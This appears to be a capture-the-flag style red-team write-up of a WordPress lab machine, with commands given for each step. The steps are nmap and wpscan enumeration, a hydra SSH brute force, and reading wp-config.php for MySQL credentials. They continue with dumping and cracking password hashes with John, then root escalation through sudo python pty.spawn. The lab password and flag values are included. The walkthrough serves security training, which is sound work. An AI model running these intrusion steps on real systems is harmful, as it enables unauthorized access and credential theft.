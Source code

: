 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.110 
```
![nmap scan](./Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp Open ssh
  - Port 80/tcp Open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp netbios-ssn
  - Port 445/tcp netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Open Ports
  - Wordpress Scan
  - Weak Passwords
  - MySQL Database Access
  - MySql Data Exfiltration
  - Privilege Escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Wpscan was used to enumerate users of Target 1's Wordpress site.
      - `wpscan http://192.168.1.110/wordpress/ --enumerate u`
        ![enumerate users](./Images/enumerate_users.png)
      - Michael had a weak password that could have been guessed easily. Alternatively a tool such as hydra could be used to brute force the password.
      - `hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh`
      
      ![hydra](./Images/hydra.png)
      - After the discovery of michael's password accessing the Target 1 machine via ssh became possible.
      - `ssh michael@192.168.1.110`
      
      ![michael ssh](./Images/michaelSSH.png)
      - Flag1 can be found by moving into the `/var/www/html/` directory then viewing the `service.html` file using a command such as `cat` or `nano`.
      - `cd /var/www/html/`
      - `cat service.html`
      
      ![flag1](./Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Flag2 can be found using the `locate` command.
      - `locate flag2.txt`
      
      ![locate flag2](./Images/locateFlag2.png)
      - `cd /var/www/`
      - `cat flag2.txt`
      
      ![flag2](./Images/flag2.png)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Login credentials can be found by moving into the `/var/www/html/wordpress/` directory and viewing the `wp-config.php` file using a command such as `cat` or `nano`.
      - `cd /var/www/html/wordpress/`
      - `cat wp-config.php`
      
      ![MySQL login credentials](./Images/mysqlCredentials.png)
      - The login credentials can be used to login to the MySQL database.
      - `mysql -u root -p'R@v3nSecurity'`
      
      ![MySQL login](./Images/mysqlLogin.png)
      - After logging in to the MySQL database and browsing through the various databases and tables flag3 can be found in the `wp_posts` table. _flag4 can also be found here._
      - `show databases;`
      - `use wordpress;`
      
      ![show databses and use wordpress](./Images/showDatabases.png)
      - `show tables;`
      
      ![show tables](./Images/showTables.png)
      - `select * from wp_posts` 
      
      ![flag3](./Images/flag3.png)
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Although flag4 can be found in the same location as flag3, there is an alternate method to finding it.
      - While still in the MySQL database the password hashes for michael and steven can be found in`wp_users`.
      
      ![password hashes](./Images/passwordHashes.png)
      - After discovering steven's password hash and exfiltrating it into a txt file John the Ripper can be used to crack the password hash.
      - `echo 'steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > wp_hashes.txt`
      - `john wp_hashes.txt`
      
      ![steven](./Images/john.png)
      - Steven's credentials can be used to ssh back into the Target 1 machine.
      
      ![steven SSH](./Images/stevenSSH.png)
      - By checking steven's privliges it is revealed that he has `sudo` priviliges for python
      - `sudo -l`
      
      ![privileges](./Images/privileges.png)
      - Steven's python privileges can be use to escalate to root.
      - `sudo python -c 'import pty;pty.spawn("/bin/bash")'`
      
      ![privilege escalation](privilegeEscalation.png)
      - As root the `locate` command can be used to find flag4.
      - `locate flag4.txt`
      
      ![locate flag4](./Images/locateFlag4.png)
      - `cd /root/`
      - `cat flag4.txt`
      
      ![flag4](./Images/flag4.png)